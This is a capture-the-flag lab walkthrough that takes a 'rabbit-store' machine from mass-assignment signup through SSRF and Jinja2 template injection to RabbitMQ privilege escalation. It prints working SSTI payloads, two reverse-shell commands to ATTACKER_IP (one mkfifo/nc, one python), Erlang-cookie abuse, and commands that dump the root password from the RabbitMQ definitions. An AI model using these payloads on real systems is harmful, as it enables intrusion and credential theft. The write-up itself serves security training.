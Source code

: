 # rabbit-store room walkthrough

port scan reveals [this output](portscan_res)

A website is found on port 80 and it includes a login/signup page

Navigating to the signup/login page is not possible since it is in a different domain (storage.cloudsite.thm), adding it to /etc/hosts (or sending a request to the IP and changing the Host header's value to storage.cloudsite.thm) fixes it (probably virtual hosting is used).

After signing up, and logging in, the site redirects to a /dashboard/inactive endpoint and we get a JWT and looking at the body claims,
```json
{"email":"admin2@cloudsite.thm2","subscription":"inactive","iat":1740473871,"exp":1740477471}
```
It includes a claim called subscription and the value is set to inactive, and we need to somehow find a way to change that to "active"?

After trying a bunch of JWT attacks and running the jwt_tool script, i came back to the signup page and sent a signup request with email, password and subscription set to active,
```json
POST /api/register

{"email":"admin2@cloudsite.thm2","subscription":"active","password":"pass"}
```
then logging in, i get a JWT with subscription set to active and a page which lets users upload a file via file-upload or a URL.

After checking the file upload feature, it looks like there is probably nothing there.

I thought trying the URL feature was interesting and wanted to test for SSRF and found out it was vulnerable to it.

using localhost as the hostname of the URI, it looked like it does send a request and fetches content from port 80.

Next step was to do a port-scan for internal services that work and i found that a couple more ports are open 
```sh
go run main.go # change the token to a valid JWT first
```
(internally, 15672, 5672).

I also tried fuzzing for different URI schemes but only HTTP worked.

The api available after logging in, it turned out i didn;t do a thorough fuzzing on it.![Alt text](./api_fuzz_res.png) I found an /api/docs endpoint that was not accessible even for active users for some reason and when trying it using the file upload URI 
```json
POST /api/docs

{
	"url": "http://localhost:3000/api/docs"
}
````
- gives a plaintext file which looks like a documentation of the api.

Inside, there is a `/api/fetch_messeges_from_chatbot` endpoint that accepts a POST request with JSON body, and sending a request with a sample body gives
```json
{
  "error": "username parameter is required"
}
```
Including a username parameter, the response reflects the value of the `username` parameter and immediately i thought this might be an SSTI.
```
  <h1>Sorry, val, our chatbot server is currently under development.</h1>
```
Sending a sample SSTI payload {{7*7}}, gives 49 which reveals the server might be using jinja2 python template engine.
```
  <h1>Sorry, 49, our chatbot server is currently under development.</h1>
```
And a final payload with
```json
{
	"username":"{{request.application.__globals__.__builtins__.__import__('os').popen('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f').read()}}"
}
```
and listening on that port locally (i used pwncat-cs), an initial foothold into the system was achieved.

I knew to look for .erlang.cookie immediately since i searched for how to test some of the open ports (4369, 25672) and found that a leaked cookie might be interesting.
```sh
find / -type f -name ".erlang.cookie" -exec ls -l {} \; 2>/dev/null
```
and it is world-readable.
We know there is a node called `rabbit` running at port 25672 from the initial scan. We can confirm that using ```epmd -names```
Using the approach that was used for couchdb privesc,
```sh
HOME=/ erl -sname anonymous -setcookie YOURLEAKEDCOOKIE
````
gives an erlang shell that can be used to run shell commands. Inside,
```sh
rpc:call('rabbit@forge', os, cmd, [whoami]).
```
- outputs rabbitmq (another user) and trying a reverse-shell might work here.
```sh
rpc:call('rabbit@forge', os, cmd, ["python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\", ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```
- gives a shell with rabbitmq user.
```sh
rabbitmqctl --erlang-cookie 'ZZlngR56keT8qstM' --node rabbit@forge list_users
```
- outputs
```
Listing users ...
user	tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.	[]
root	[administrator]
```
Then, export the configuration and definition for the provided node instance to a file
```sh
rabbitmqctl --erlang-cookie 'ZZlngR56keT8qstM' --node rabbit@forge export_definitions definitions.json
```
Reading the file reveals a SHA-256 hash including a salt prepended to it (32 bits). The root user's password is anything after the salt (according to the message earlier).
```sh
echo $HASH | base64 -d | xxd -p -c 36 | cut -c9- # the root user's password
```